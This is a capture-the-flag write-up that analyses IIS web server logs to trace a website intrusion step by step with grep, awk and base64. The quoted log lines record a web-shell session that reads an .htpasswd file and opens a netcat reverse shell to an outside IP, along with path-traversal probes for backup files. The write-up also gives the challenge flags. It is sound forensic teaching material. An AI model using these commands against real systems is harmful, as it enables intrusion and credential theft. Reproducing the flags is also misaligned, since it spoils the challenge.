 ```yaml
---
title:  "#writeup: DigitalOverdose - Log Analysis"
layout: post
date:   2021-10-10
ctfs: true
permalink: /writeup-dover21
redirect_to: https://scavengersecurity.com/posts/digitaloverdose-loganalysis/
author: jartigag
tag:
- ctf
- análisis
- cybersec
- windos
mastodonReplies: https://mastodon.social/@jartigag/107079704581201058
twitterReplies: https://twitter.com/jartigag/status/1447522555275927552
---
```


[https://scavengersecurity.com/posts/digitaloverdose-loganalysis/](https://scavengersecurity.com/posts/digitaloverdose-loganalysis/)

```
original writeup metadata:
---
title: Log Analysis
event: DigitalOverdoseCTF 2021
date: 2021-10-09
discipline: log analysis
difficulty:
    - easy, 100 points. 34 solves when solved [2021-10-09 11:57 CEST], 133 solves at end [2021-10-10 21:50:33 CEST]
    - easy, 150 points. 17 solves when solved [2021-10-09 11:57 CEST], 100 solves at end [2021-10-10 21:50:33 CEST]
    - easy, 200 points. 13 solves when solved [2021-10-09 11:57 CEST],  84 solves at end [2021-10-10 21:50:33 CEST]
author: jartigag
tags: iis logs, access logs, grep, awk
---
```

# Log Analysis

> An incident has affected our website! Fortunately, we have logs.

This is a 3-part challenge. Two IIS logs are provided:

```bash
$ ll *log
9,4M attack.log
 46M more.log
$ for f in *log; do cat $f | (head -2; tail -1); done
#Fields: date time s-ip cs-method cs-uri-stem cs-uri-query s-port cs-username c-ip cs(User-Agent) cs(Referer) sc-status sc-substatus sc-win32-status time-taken
2021-09-01 00:28:00 135.233.142.30 GET polyfills-es5.9fba121277a252cdf0fa.js - 443 - 83.147.40.142 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.1;+WOW64;+Trident/5.0) - 200 0 0 22
2021-09-06 23:49:22 135.233.142.30 GET conference - 443 - 194.48.242.119 Mozilla/4.0+(compatible;+MSIE+7.0;+Windows+NT+5.1) https://digitaloverdose.tech/ctf 200 0 0 20
#Fields: date time s-ip cs-method cs-uri-stem cs-uri-query s-port cs-username c-ip cs(User-Agent) cs(Referer) sc-status sc-substatus sc-win32-status time-taken
2021-08-01 00:27:00 45.85.1.176 GET cdn-cgi/scripts/5c5dd728/cloudflare-static/email-decode.min.js - 443 - 185.251.117.121 Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.1;+SV1;+.NET+CLR+1.1.4322) - 200 0 0 24
2021-08-31 23:34:04 45.85.1.176 GET privacy - 443 - 31.185.221.23 Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.1) https://digitaloverdose.tech/dovercon/2021 200 0 0 20
```

## 1 - Ingress

> Our website was hacked recently and the attackers completely ransomwared our server!
> We've recovered it now, but we don't want it to happen again.
> Here are the logs from before the attack, can you find out what happened?

We start inspecting some log fields, looking for something uncommon. For example, in the [`cs(Referer)` field](https://en.wikipedia.org/wiki/HTTP_referer):
```shell
$ awk '{print $(NF-4)}' attack.log | sort | uniq -c | sort -nr
   6947 -
   1343 https://digitaloverdose.tech/dovercon/sponsoring-edition-2021
   1318 https://digitaloverdose.tech/dovercon/2021/speakers
   1286 https://digitaloverdose.tech/dovercon/2021/code-of-conduct
   1278 https://digitaloverdose.tech/dovercon/2021/about
   1268 https://digitaloverdose.tech/dovercon/2021
   1262 https://digitaloverdose.tech/privacy
   1255 https://digitaloverdose.tech/ctf/2021-autumn
   1230 https://digitaloverdose.tech/team
   1225 https://digitaloverdose.tech/faq
   1224 https://digitaloverdose.tech/dovercon/2021/cfp
   1214 https://digitaloverdose.tech/copyright
   1213 https://digitaloverdose.tech/ctf/2021-spring
   1210 https://digitaloverdose.tech/dovercon
   1210 https://digitaloverdose.tech/conference
   1208 https://digitaloverdose.tech/dovercon/2021/sponsoring
   1206 https://digitaloverdose.tech/dovercon/cfp-edition-2021
   1205 https://digitaloverdose.tech/dovercon/team-edition-2021
   1204 https://digitaloverdose.tech/home
   1202 https://digitaloverdose.tech/ctf/about
   1197 https://digitaloverdose.tech/
   1194 https://digitaloverdose.tech/ctf
   1149 https://digitaloverdose.tech/dovercon/schedule-edition-2021
   1149 https://digitaloverdose.tech/dovercon/2021/mentors
   1135 https://digitaloverdose.tech/dovercon/2021/schedule
   1118 https://digitaloverdose.tech/dovercon/2021/team
   1090 https://digitaloverdose.tech/dovercon/speakers-edition-2021
      7 https://digitaloverdose.tech/ywesusnz
      1 cs(Referer)
```

What is that `ywesusnz`? Let's look which requests were made from that URI:
```shell
$ grep ywesusnz attack.log
2021-09-06 20:44:19 135.233.142.30 GET ywesusnz cmd%3Dcd+.. 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/faq 200 0 0 20
2021-09-06 20:44:45 135.233.142.30 GET ywesusnz cmd%3Dpwd 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 26
2021-09-06 20:45:04 135.233.142.30 GET ywesusnz cmd%3Dwhoami 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 25
2021-09-06 20:45:16 135.233.142.30 GET ywesusnz cmd%3Dhostname 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 25
2021-09-06 20:45:46 135.233.142.30 GET ywesusnz cmd%3Dnetstat+-peanut 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 21
2021-09-06 20:46:04 135.233.142.30 GET ywesusnz cmd%3Dcat+%2Fvar%2Fwww%2F.htpasswd 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 22
2021-09-06 20:46:12 135.233.142.30 GET ywesusnz cmd%3Dcat+RE97YmV0dGVyX3JlbW92ZV90aGF0X2JhY2tkb29yfQ== 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 26
2021-09-06 20:46:19 135.233.142.30 GET ywesusnz cmd%3Dnc+-e+%2Fbin%2Fsh+207.35.160.84+4213 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 20
$ echo RE97YmV0dGVyX3JlbW92ZV90aGF0X2JhY2tkb29yfQ== | base64 -d
DO{better_remove_that_backdoor}
```

## 2 - Investigation

> Thanks for finding the RFI vulnerability in our FAQ.  We have fixed it now, but we don't understand how the attacker found it so quickly.
> We suspect it might be an inside job, but maybe they got the source another way.  Here are the logs for the month prior to the attack, can you see anything suspicious?
> Please submit the attackers IP as the flag as follow, DO{x.x.x.x}

What characters would a suspicious request contain (maybe looking for a [path transversal attack](https://en.wikipedia.org/wiki/Directory_traversal_attack))?

```shell
$ grep "\.\." more.log | (head -3; tail -1)
2021-08-03 08:55:00 45.85.1.176 GET ../..//passwords.bckp - 443 - 200.13.84.124 Mozilla/5.0+(Windows+NT+5.1;+Win64;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/60.0.3112.90+Safari/537.36 - 404 0 0 27
2021-08-03 08:55:00 45.85.1.176 GET ..//configuration.3 - 443 - 200.13.84.124 Mozilla/5.0+(Windows+NT+5.1;+Win64;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/60.0.3112.90+Safari/537.36 - 404 0 0 22
2021-08-03 08:55:00 45.85.1.176 GET ../../..//db_config.1 - 443 - 200.13.84.124 Mozilla/5.0+(Windows+NT+5.1;+Win64;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/60.0.3112.90+Safari/537.36 - 404 0 0 25
2021-08-03 08:55:08 45.85.1.176 GET ../..//admin.txt - 443 - 200.13.84.124 Mozilla/5.0+(Windows+NT+5.1;+Win64;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/60.0.3112.90+Safari/537.36 - 404 0 0 30
```

So we compose the flag with the client IP:

`DO{200.13.84.124}`

## 3 - Backup Policy

> So it looks like the attacker scanned our site for old backups right?  Did he get one?

Filtering the attack date and excluding the "404 - Not found" response code:

```bash
$ grep "2021-08-03 08:55" more.log | grep -v 404
2021-08-03 08:55:00 45.85.1.176 GET 8-es2015.9f210c2bd083cdacb0ee.js - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) - 200 0 0 22
2021-08-03 08:55:00 45.85.1.176 GET dovercon/speakers-edition-2021 - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) - 200 0 0 26
2021-08-03 08:55:00 45.85.1.176 GET backup.zip - 443 - 200.13.84.124 Mozilla/5.0+(Windows+NT+5.1;+RE97czNjcjN0X19fYWdlbnR9;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/60.0.3112.90+Safari/537.36 - 200 0 0 25
2021-08-03 08:55:29 45.85.1.176 GET runtime-es5.43df09c2199138dc23a5.js - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 22
2021-08-03 08:55:29 45.85.1.176 GET assets/images/ctf/2021-01/offsec-logo.svg - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 27
2021-08-03 08:55:29 45.85.1.176 GET polyfills-es5.9fba121277a252cdf0fa.js - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 20
2021-08-03 08:55:29 45.85.1.176 GET dovercon/speakers-edition-2021 - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 21
2021-08-03 08:55:39 45.85.1.176 GET assets/images/ctf/2021-01/offsec-logo.svg - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 20
2021-08-03 08:55:39 45.85.1.176 GET polyfills-es2015.891d5b00ef96a8ae9449.js - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 30
2021-08-03 08:55:39 45.85.1.176 GET polyfills-es2015.891d5b00ef96a8ae9449.js - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 25
2021-08-03 08:55:39 45.85.1.176 GET dovercon/schedule-edition-2021 - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 25
$ echo "RE97czNjcjN0X19fYWdlbnR9" | base64 -d
DO{s3cr3t___agent}
```
